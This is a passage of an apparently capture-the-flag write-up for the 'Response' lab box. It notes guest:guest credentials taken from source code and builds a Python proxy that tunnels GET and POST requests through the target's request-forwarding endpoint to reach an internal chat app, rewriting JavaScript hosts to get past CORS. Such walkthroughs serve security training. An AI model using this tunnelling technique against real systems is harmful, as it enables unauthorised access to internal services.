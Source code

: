 The source code has creds of `guest:guest` to authenticate users on the app.

## Adding MITM functionality
The current page says that we need to include the js which means we need to forward everything through this proxy.
```python
class Server(SimpleHTTPRequestHandler):
	def do_GET(self):
		print(self.path)
		r = download_url(self.path[1:])
		self.send_response(r.status_code)
		self.send_header("Content-type","text/html")
		self.end_headers()
		data = r.json()
		decoded = base64.b64decode(data["body"])
		self.wfile.write(decoded)
		
HTTPServer(("",3000), Server).serve_forever()
```

This returns the login page for the chat app.

Trying to login with `guest:guest` errors as the proxy cant reach `chat.response.htb` due to `CORS Missing Allow Origin`. Also need to make the content type dynamic so it loads the css and js properly.
```python
def get_mimetype(path):
	mime = mimetypes.MimeTypes()
	mime_type = mime.guess_type(path)
	if mime_type:
		return mime_type[0]
	return "text/html"
```
Now the js and css looks better.

To fix the CORS errors we can change all the requests to `chat.response.htb` to go to the server on localhost.
```python
if self.path.endswith(".js"):
	decoded = decoded.replace(b"chat.response.htb",b"localhost:3000")
```

This stops the CORS error and give a 501 due to a POST request.
```python
def do_POST(self):
	self.data_string = self.rfile.read(int(self.headers['Content-Length']))
	if self.data_string:
		r = download_url("POST",self.path[1:],self.data_string)
	else:
		r = download_url("POST",self.path[1:])
	self.send_response(r.status_code)
	self.send_header("Content-type",get_mimetype(self.path))
	self.end_headers()
	data = r.json()
	self.wfile.write(base64.b64decode(data["body"]))
```
